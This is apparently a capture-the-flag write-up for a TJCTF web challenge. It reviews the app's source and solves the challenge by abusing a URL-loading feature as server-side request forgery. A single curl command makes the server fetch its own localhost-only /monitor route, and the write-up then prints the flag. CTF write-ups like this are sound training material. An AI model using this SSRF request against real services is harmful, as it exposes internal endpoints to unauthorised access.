

For this challenge, we're given the source code.



Visiting the website, it takes in a URL and loads it in the page, looks like a basic SSRF.

## Source code

From the Dockerfile, we know that the app is running locally on port 5000.
```
FROM python:3.8.5-slim-buster

RUN pip install flask gunicorn requests lxml

COPY . /app

WORKDIR /app

EXPOSE 5000

CMD ["gunicorn", "-b", "0.0.0.0:5000", "app:app", "-w", "4"]

```

`app.py`
```
@app.route("/monitor")
def monitor():
    if request.remote_addr in ("localhost", "127.0.0.1"):
        return render_template(
            "admin.html", message=flag, errors="".join(log) or "No recent errors"
        )
    else:
        return render_template("admin.html", message="Unauthorized access", errors="")


```
To retrieve the flag, we need to make a request to `/monitor` where our address originated from localhost.
We will use the SSRF to retrieve it.

## Solution

```
curl -s 'https://reader.tjc.tf/?site=http://127.0.0.1:5000/monitor'
```

Flag: `tjctf{maybe_dont_make_random_server_side_requests_dd695b62}`